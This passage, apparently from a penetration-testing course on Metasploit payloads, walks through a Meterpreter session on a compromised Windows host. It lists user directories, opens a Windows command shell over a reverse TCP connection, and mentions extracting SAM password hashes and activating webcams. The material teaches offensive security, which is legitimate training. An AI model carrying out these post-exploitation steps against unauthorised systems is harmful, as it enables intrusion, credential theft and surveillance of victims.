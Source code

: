 Pretty nifty. From extracting user hashes from SAM to taking screenshots and activating webcams. All of this is done from the comfort of a Linux-style command line. Exploring further, we also see the option to open a shell channel. This will place us in the actual Windows command-line interface.

**MSF - Meterpreter Navigation**

&#x20; Payloads

```shell-session
meterpreter > cd Users
meterpreter > ls

Listing: C:\Users
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40777/rwxrwxrwx   8192  dir   2017-07-21 06:56:23 +0000  Administrator
40777/rwxrwxrwx   0     dir   2009-07-14 05:08:56 +0000  All Users
40555/r-xr-xr-x   8192  dir   2009-07-14 03:20:08 +0000  Default
40777/rwxrwxrwx   0     dir   2009-07-14 05:08:56 +0000  Default User
40555/r-xr-xr-x   4096  dir   2009-07-14 03:20:08 +0000  Public
100666/rw-rw-rw-  174   fil   2009-07-14 04:54:24 +0000  desktop.ini
40777/rwxrwxrwx   8192  dir   2017-07-14 13:45:33 +0000  haris


meterpreter > shell

Process 2664 created.
Channel 1 created.

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Users>
```

`Channel 1` has been created, and we are automatically placed into the CLI for this machine. The channel here represents the connection between our device and the target host, which has been established in a reverse TCP connection (from the target host to us) using a Meterpreter Stager and Stage. The stager was activated on our machine to await a connection request initialized by the Stage payload on the target machine.

Moving into a standard shell on the target is helpful in some cases, but Meterpreter can also navigate and perform actions on the victim machine. So we see that the commands have changed, but we have the same privilege level within the system.

**MSF - Windows CMD**

&#x20; Payloads

```shell-session
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Users>dir

dir
 Volume in drive C has no label.
 Volume Serial Number is A0EF-1911

 Directory of C:\Users

21/07/2017  07:56    <DIR>          .
21/07/2017  07:56    <DIR>          ..
21/07/2017  07:56    <DIR>          Administrator
14/07/2017  14:45    <DIR>          haris
12/04/2011  08:51    <DIR>          Public
```